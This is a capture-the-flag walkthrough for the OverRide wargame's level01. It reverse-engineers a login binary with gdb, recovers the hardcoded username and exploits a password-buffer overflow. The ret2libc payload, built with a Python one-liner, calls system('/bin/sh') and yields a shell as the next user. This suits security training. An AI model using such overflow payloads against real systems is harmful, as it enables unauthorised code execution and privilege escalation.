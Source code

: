 # Walkthrough

After examining the contents of the home directory, a binary file called `"level01"` was discovered. When executed, the program prompts the user to enter a username to connect to the program.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: samir
verifying username....

nope, incorrect username...
```

To gain a better understanding of the project, I attempted to reverse engineer the program using `gdb`. I started by listing the functions contained in the program and then disassembling the `main` function.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048318  _init
0x08048360  printf
0x08048360  printf@plt
0x08048370  fgets
0x08048370  fgets@plt
0x08048380  puts
0x08048380  puts@plt
0x08048390  __gmon_start__
0x08048390  __gmon_start__@plt
0x080483a0  __libc_start_main
0x080483a0  __libc_start_main@plt
0x080483b0  _start
0x080483e0  __do_global_dtors_aux
0x08048440  frame_dummy
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
0x080485c0  __libc_csu_init
0x08048630  __libc_csu_fini
0x08048632  __i686.get_pc_thunk.bx
0x08048640  __do_global_ctors_aux
0x0804866c  _fini
```

The main function creates a buffer and subsequently clears it. then it prompts the user to enter a username using the fgets function and stores the content in a global variable called "a_user_name."

```c
   0x080484d8 <+8>: sub    esp,0x60
   0x080484db <+11>: lea    ebx,[esp+0x1c]
   0x080484df <+15>: mov    eax,0x0
   0x080484e4 <+20>: mov    edx,0x10
   0x080484e9 <+25>: mov    edi,ebx
   0x080484eb <+27>: mov    ecx,edx
   0x080484ed <+29>: rep stos DWORD PTR es:[edi],eax
   0x080484ef <+31>: mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>: mov    DWORD PTR [esp],0x80486b8 // "********* ADMIN LOGIN PROMPT *********"
   0x080484fe <+46>: call   0x8048380 <puts@plt>
   0x08048503 <+51>: mov    eax,0x80486df // "Enter Username: "
   0x08048508 <+56>: mov    DWORD PTR [esp],eax
   0x0804850b <+59>: call   0x8048360 <printf@plt>
   0x08048510 <+64>: mov    eax,ds:0x804a020
   0x08048515 <+69>: mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>: mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>: mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>: call   0x8048370 <fgets@plt>
```

The program then calls the verify_user_name() function, which compares the "a_user_name" variable to a string called "dat_wil" that is no longer than 7 characters using the strncmp function.

```s
(gdb) disas verify_user_name
Dump of assembler code for function verify_user_name:
   0x08048464 <+0>: push   ebp
   0x08048465 <+1>: mov    ebp,esp
   0x08048467 <+3>: push   edi
   0x08048468 <+4>: push   esi
   0x08048469 <+5>: sub    esp,0x10
   0x0804846c <+8>: mov    DWORD PTR [esp],0x8048690
   0x08048473 <+15>: call   0x8048380 <puts@plt>
   0x08048478 <+20>: mov    edx,0x804a040
   0x0804847d <+25>: mov    eax,0x80486a8
   0x08048482 <+30>: mov    ecx,0x7
   0x08048487 <+35>: mov    esi,edx
   0x08048489 <+37>: mov    edi,eax
   0x0804848b <+39>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804848d <+41>: seta   dl
   0x08048490 <+44>: setb   al
   0x08048493 <+47>: mov    ecx,edx
   0x08048495 <+49>: sub    cl,al
   0x08048497 <+51>: mov    eax,ecx
   0x08048499 <+53>: movsx  eax,al
   0x0804849c <+56>: add    esp,0x10
   0x0804849f <+59>: pop    esi
   0x080484a0 <+60>: pop    edi
   0x080484a1 <+61>: pop    ebp
   0x080484a2 <+62>: ret
```

If the result of the comparison is not equal to 0, the program displays "nope, incorrect username...\n." Otherwise, the program prompts the user to enter a password, which is then stored in a buffer using the fgets function.

```s
   0x08048532 <+98>: mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>: cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>: je     0x8048550 <main+128>
   0x0804853d <+109>: mov    DWORD PTR [esp],0x80486f0 // "nope, incorrect username...\n"
   0x08048544 <+116>: call   0x8048380 <puts@plt>
   0x08048549 <+121>: mov    eax,0x1
   0x0804854e <+126>: jmp    0x80485af <main+223>
   0x08048550 <+128>: mov    DWORD PTR [esp],0x804870d // "Enter Password: "
   0x08048557 <+135>: call   0x8048380 <puts@plt>
   0x0804855c <+140>: mov    eax,ds:0x804a020
   0x08048561 <+145>: mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>: mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>: lea    eax,[esp+0x1c]
   0x08048571 <+161>: mov    DWORD PTR [esp],eax
   0x08048574 <+164>: call   0x8048370 <fgets@plt>
```

The buffer is then passed as a parameter to the verify_user_pass function, which compares the buffer to the string "admin" that is no longer than 5 characters using the strncmp function.

```s
(gdb) disas verify_user_pass
Dump of assembler code for function verify_user_pass:
   0x080484a3 <+0>: push   ebp
   0x080484a4 <+1>: mov    ebp,esp
   0x080484a6 <+3>: push   edi
   0x080484a7 <+4>: push   esi
   0x080484a8 <+5>: mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>: mov    edx,eax
   0x080484ad <+10>: mov    eax,0x80486b0
   0x080484b2 <+15>: mov    ecx,0x5
   0x080484b7 <+20>: mov    esi,edx
   0x080484b9 <+22>: mov    edi,eax
   0x080484bb <+24>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>: seta   dl
   0x080484c0 <+29>: setb   al
   0x080484c3 <+32>: mov    ecx,edx
   0x080484c5 <+34>: sub    cl,al
   0x080484c7 <+36>: mov    eax,ecx
   0x080484c9 <+38>: movsx  eax,al
   0x080484cc <+41>: pop    esi
   0x080484cd <+42>: pop    edi
   0x080484ce <+43>: pop    ebp
   0x080484cf <+44>: ret
```

If the result of the comparison is equal to 0, the program displays "nope, incorrect password...\n." Otherwise, the program outputs the same message.

```s
   0x08048585 <+181>: mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>: cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>: je     0x8048597 <main+199>
   0x08048590 <+192>: cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>: je     0x80485aa <main+218>
   0x08048597 <+199>: mov    DWORD PTR [esp],0x804871e
   0x0804859e <+206>: call   0x8048380 <puts@plt>
   0x080485a3 <+211>: mov    eax,0x1
   0x080485a8 <+216>: jmp    0x80485af <main+223>
```

Upon analyzing the code, it becomes apparent that the size specified in the second fgets() function, along with the address of esp+0x1c (which points to the buffer), will exceed the address of EBP by 24 bytes. Armed with this knowledge, it is possible to change the return address of the main function to a new address within the system function, while also passing the "/bin/sh" parameter. However, in order to do this, it was necessary to determine the offset between the buffer and the return address. Consequently, I calculated the offset in the following manner:

```sh
>>> (0xffffd6e8 + 0x4) - 0xffffd69c // (EBP + 0x4 <=> return) - address of the buffer
80
```

Next, I needed to locate the address of the system function and determine how to pass the "/bin/sh" parameter to it. To achieve this, I followed these steps:

```s
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc mapping
process 1670
Mapped address spaces:

 Start Addr   End Addr       Size     Offset objfile
  0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
  0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
  0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
 0xf7e2b000 0xf7e2c000     0x1000        0x0
 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
 0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
 0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
 0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
 0xf7fd0000 0xf7fd4000     0x4000        0x0
 0xf7fd8000 0xf7fdb000     0x3000        0x0
 0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
 0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
 0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
 0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
 0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb)
```

To fill the buffer with the necessary information, I used Python to generate a string consisting of As that would overwrite the return address with the address of the system function. Additionally, I included randomly generated data for the return address of the system() function and the address of the "/bin/sh" parameter.

```sh
level2@RainFall:~$ python2 -c  'print("A" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "BBBB" + "\xf7\xf8\x97\xec"[::-1])' > /tmp/flag
```

Finally, all that remains is to input the "dat_wil" user as the first input, and the previously generated string as the second input. And that's all there is to it!

```sh
level01@OverRide:~$ (echo dat_wil; cat /tmp/flag -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cd ../level02
ls -la
total 21
dr-xr-x---+ 1 level02 level02   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level02 level02  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level02 level02 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
-rw-r--r--+ 1 level02 level02   41 Oct 19  2016 .pass
-rw-r--r--  1 level02 level02  675 Sep 10  2016 .profile
```

